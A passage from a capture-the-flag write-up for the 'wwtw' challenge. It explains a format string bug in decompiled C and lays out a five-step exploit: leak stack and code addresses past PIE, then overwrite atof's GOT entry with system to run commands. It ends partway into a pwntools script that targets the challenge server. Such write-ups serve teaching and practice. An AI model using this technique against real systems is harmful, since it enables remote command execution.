 ```c
    fflush(stdout);
  }
  printf("You safely travel to coordinates %s\n", &s);
  result = fflush(stdout);
  if ( *MK_FP(__GS__, 20) != v5 )
    terminate_proc();
  return result;
}
```

So it will let us input our coordinates, and check the coordinates' value. If the coordinates are **(51.492137, -0.192878)**, it will trigger the **format string vulnerability**. After leaking some messages, we found that we're able to leak the **stack address**. This is very important, since the binary has the **PIE** & **Partial RELRO** protection, we don't know where the text's base address is, neither functions' GOT address. But if we can leak the stack address, we can calculate the location that stored the return address, **and leak the return address to calculate the text's base address.** After we have the text's base address, we can **calculate the functions' GOT address, and leak the function pointer.** After we got all the memory address, we can use the format string vulnerability to overwrite `atof`'s GOT entry into `system`'s address, and execute our command by entering our commands as the coordinates.

So to sum up:
1. Leak the stack address and calculate the return address' location
2. Leak the return address and calculate the text's base address
3. Calculate `atof`'s GOT and leak the function pointer
4. Calculate `system`'s address and overwrite `atof`'s GOT entry
5. Input coordinates **"[command], [garbage]"** to execute our commands
    

Here's the exploit. The part that beating the game was done by **yench**, while the rest was done by me.

```python wwtw_exp.py
from pwn import *
import struct
import time
import binascii
import hashlib
import time
import string

ip = "wwtw_c3722e23150e1d5abbc1c248d99d718d.quals.shallweplayaga.me"
port = 2606

def getMap(s):
	MAP=s
	MAP=MAP[:len(MAP)-24]
	print MAP
	MAP=MAP[len(MAP)-479:]
	sql=MAP.split('\n')
	i=0
	res = [[] for x in range(20)] 
	for l in sql:
		l = l[3:]
		res[i]=l
		i+=1 
	return res

def getChar(c,MAP):
	x=0
	y=0
	for i in MAP:
		for j in i:
			for a in c:
				if j == a:
```
